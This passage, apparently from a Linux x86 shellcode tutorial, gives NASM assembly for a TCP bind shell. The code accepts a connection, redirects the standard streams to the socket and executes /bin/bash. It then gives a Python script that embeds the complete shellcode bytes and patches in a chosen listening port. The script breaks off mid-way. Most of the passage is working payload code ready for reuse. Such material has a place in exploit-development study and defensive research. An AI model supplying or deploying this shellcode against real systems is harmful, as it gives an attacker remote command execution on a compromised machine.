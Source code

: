 ```nasm
    mov ax, 0x16c       ; sys_accept4
    mov ebx, edi        ; int sockfd -> saved sock fd value
    xor ecx, ecx        ; struct sockaddr *addr -> NULL
    xor edx, edx        ; socklen_t *addrlen -> NULL
    xor esi, esi
    int 0x80            ; sys_socketcall (SYS_ACCEPT)
    mov edi, eax        ; save the new fd

    ; Redirect STDIN, STDOUT, STDERR to socket
    xor ecx, ecx
    mov cl, 0x3         ; counter for loop (stdin to stderr)
    mov ebx, edi        ; socket fd

    dup2:
    mov al, 0x3f        ; sys_dup2
    dec ecx
    int 0x80            ; sys_dup2
    inc ecx
    loop dup2

    ; execve()
    xor eax, eax
    push 0x41687361     ; ///bin/bashA
    push 0x622f6e69
    push 0x622f2f2f
    mov byte [esp + 11], al ; NULL terminate string
    mov al, 0xb         ; sys_execve
    mov ebx, esp        ; const char *filename
    xor ecx, ecx        ; char *const argv[]
    xor edx, edx        ; char *const envp[]
    int 0x80            ; sys_execve
```

If we want to change the listening port, we can modify the assembly code and re-compile it but instead it would be more convenient to use a small python script that will automatically replace the port in the shellcode.

The following script replaces the hardcoded port `4444` from the shellcode with the port supplied at the command line. The script also gives a warning if any null bytes are contained in the modified shellcode. Depending on which port is being used, it's possible some values may generate null bytes.

```python
#!/usr/bin/python

import socket
import sys

shellcode =  '\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\xb0\\x66\\xb3\\x01\\x6a\\x06\\x6a\\x01'
shellcode += '\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc7\\x52\\x52\\x52\\x66\\x68\\x11\\x5c\\x66'
shellcode += '\\x6a\\x02\\x89\\xe6\\xb0\\x66\\xb3\\x02\\x6a\\x10\\x56\\x57\\x89\\xe1\\xcd\\x80'
shellcode += '\\xb0\\x66\\xb3\\x04\\x52\\x57\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xb3\\x05\\x52\\x52'
shellcode += '\\x57\\x89\\xe1\\xcd\\x80\\x89\\xc7\\x31\\xc9\\xb1\\x03\\x89\\xfb\\xb0\\x3f\\x49'
shellcode += '\\xcd\\x80\\x41\\xe2\\xf8\\x31\\xc0\\x68\\x61\\x73\\x68\\x41\\x68\\x69\\x6e\\x2f'
shellcode += '\\x62\\x68\\x2f\\x2f\\x2f\\x62\\x88\\x44\\x24\\x0b\\xb0\\x0b\\x89\\xe3\\x31\\xc9'
shellcode += '\\x31\\xd2\\xcd\\x80'

if len(sys.argv) < 2:
    print('Usage: {name} [port]'.format(name = sys.argv[0]))
    exit(1)

port = sys.argv[1]
port_htons = hex(socket.htons(int(port)))

byte1 = port_htons[4:]
```
